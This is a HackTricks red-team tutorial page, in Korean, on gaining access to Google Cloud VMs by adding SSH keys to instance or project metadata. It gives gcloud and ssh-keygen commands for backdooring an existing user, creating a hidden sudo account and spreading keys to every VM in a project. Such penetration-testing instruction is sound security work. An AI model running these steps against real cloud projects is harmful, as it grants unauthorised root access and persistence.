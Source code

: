 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

인스턴스의 메타데이터 수정은 **공격자가 필요한 권한을 얻을 경우 상당한 보안 위험을 초래할 수 있습니다**.

#### **커스텀 메타데이터에 SSH 키 통합하기**

GCP에서 **리눅스 시스템**은 종종 [Google Compute Engine용 Python Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)에서 스크립트를 실행합니다. 이의 중요한 구성 요소는 **정기적으로** 인스턴스 메타데이터 엔드포인트를 확인하여 **허가된 SSH 공개 키의 업데이트**를 확인하는 [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)입니다.

따라서 공격자가 커스텀 메타데이터를 수정할 수 있다면, 그는 데몬이 새로운 공개 키를 찾도록 만들 수 있으며, 이는 처리되어 **로컬 시스템에 통합됩니다**. 키는 **기존 사용자**의 `~/.ssh/authorized_keys` 파일에 추가되거나, 키의 형식에 따라 `sudo` 권한이 있는 새로운 사용자가 생성될 수 있습니다. 그리고 공격자는 호스트를 손상시킬 수 있습니다.

#### **기존 권한 있는 사용자에게 SSH 키 추가하기**

1. **인스턴스의 기존 SSH 키 검사:**
*   인스턴스와 그 메타데이터를 설명하는 명령을 실행하여 기존 SSH 키를 찾습니다. 출력의 관련 섹션은 `metadata` 아래, 특히 `ssh-keys` 키에 있습니다.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* SSH 키의 형식에 주의하십시오: 사용자 이름은 키 앞에 위치하며, 콜론으로 구분됩니다.
2. **SSH 키 메타데이터를 위한 텍스트 파일 준비:**
* 사용자 이름과 해당 SSH 키의 세부 정보를 `meta.txt`라는 텍스트 파일에 저장합니다. 이는 기존 키를 보존하면서 새로운 키를 추가하는 데 필수적입니다.
3. **대상 사용자(`alice` 예시)에 대한 새로운 SSH 키 생성:**
*   `ssh-keygen` 명령을 사용하여 새로운 SSH 키를 생성하며, 주석 필드(`-C`)가 대상 사용자 이름과 일치하도록 합니다.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* 새로운 공개 키를 `meta.txt`에 추가하여 인스턴스의 메타데이터에서 발견된 형식을 모방합니다.
4. **인스턴스의 SSH 키 메타데이터 업데이트:**
*   `gcloud compute instances add-metadata` 명령을 사용하여 인스턴스에 업데이트된 SSH 키 메타데이터를 적용합니다.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **새로운 SSH 키를 사용하여 인스턴스에 접근:**
*   새로운 키를 사용하여 SSH로 인스턴스에 연결하고, 대상 사용자(`alice` 예시)의 컨텍스트에서 셸에 접근합니다.

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **새로운 권한 있는 사용자 생성 및 SSH 키 추가하기**

흥미로운 사용자가 발견되지 않으면, `sudo` 권한이 부여된 새로운 사용자를 생성할 수 있습니다:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH 키를 프로젝트 수준에서 <a href="#sshing-around" id="sshing-around"></a>

**프로젝트 수준에서 SSH 키를 적용**하여 클라우드 환경의 여러 가상 머신(VM)에 대한 SSH 액세스 범위를 넓힐 수 있습니다. 이 접근 방식은 프로젝트 내에서 명시적으로 프로젝트 전체 SSH 키를 차단하지 않은 모든 인스턴스에 SSH 액세스를 허용합니다. 요약 가이드는 다음과 같습니다:

1. **프로젝트 수준에서 SSH 키 적용:**
*   `gcloud compute project-info add-metadata` 명령을 사용하여 `meta.txt`의 SSH 키를 프로젝트의 메타데이터에 추가합니다. 이 작업은 VM이 "프로젝트 전체 SSH 키 차단" 옵션을 활성화하지 않는 한, SSH 키가 프로젝트의 모든 VM에서 인식되도록 보장합니다.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **프로젝트 전체 키를 사용하여 인스턴스에 SSH 접속:**
* 프로젝트 전체 SSH 키가 설정되면, 프로젝트 내의 모든 인스턴스에 SSH 접속할 수 있습니다. 프로젝트 전체 키를 차단하지 않는 인스턴스는 SSH 키를 수락하여 액세스를 허용합니다.
* 인스턴스에 SSH 접속하는 직접적인 방법은 `gcloud compute ssh [INSTANCE]` 명령을 사용하는 것입니다. 이 명령은 현재 사용자 이름과 프로젝트 수준에서 설정된 SSH 키를 사용하여 액세스를 시도합니다.

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
